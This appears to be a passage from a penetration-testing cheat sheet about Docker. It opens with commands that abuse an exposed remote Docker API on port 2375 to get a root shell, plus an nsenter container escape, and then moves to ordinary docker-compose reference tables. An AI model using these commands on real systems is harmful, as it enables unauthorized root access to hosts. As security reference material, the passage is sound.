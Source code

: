 ```c
$ docker -H <RHOST>:2375 commit 01ca084c69b7
sha256:aa02ba520ac94c2ca87366344c6c6f49d351a4ef05ba65341109cdccf14619ac

Initial CONTAINER ID: 01ca084c69b7
New COMMIT:           aa02ba520ac94c2ca87366344c6c6f49d351a4ef05ba65341109cdccf14619ac
New CONTAINER ID:     aa02ba520ac9
```

```c
$ docker -H <RHOST>:2375 run -it aa02ba520ac9 /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

### Abusing Namespaces

#### Verify Environment

```c
$ ps aux
```

#### Exploitation via Namespace Enter (nsenter)

```c
$ nsenter --target 1 --mount --uts --ipc --net /bin/bash
```
  
## Docker-Compose

### Common Commands

```c
$ docker-compose up       // (re)create/build and start containers specified in the compose file
$ docker-compose start    // start specific containers from compose file
$ docker-compose down     // stop and delete containers from the compose file
$ docker-compose stop     // stop (not delete) containers from the compose file
$ docker-compose build    // build (not start) containers from the compose file
```

### Create Networks and run Containers

```c
$ docker network create <NETWORK>
$ docker run -p 80:80 --name <NAME> --net <NETWORK> <NAME>
$ docker run --name <NAME> --net <NETWORK> <NAME>
$ docker-compose up
```

### docker-compose.yml Files

| Instruction | Explanation | Example |
| --- | --- | --- |
| version | Placed on top of the file to identify the version of docker-compose the file is written for. | 3.3 |
| services | Marks the beginning of the containers to be managed. | services: |
| name | Define the container and its configuration. | webserver |
| build | Defines the directory containing the Dockerfile for this container/service. | ./<NAME> |
| ports | Publishes ports to the exposed ports (this depends on the image/Dockerfile). | '80:80' |
| volumes | Lists the directories that should be mounted into the container from the host operating system. | './home/<USERNAME>/webserver/:/var/www/html' |
| environment | Pass environment variables (not secure), i.e. passwords, usernames, timezone configurations, etc. | MYSQL_ROOT_PASSWORD=<PASSWORD> |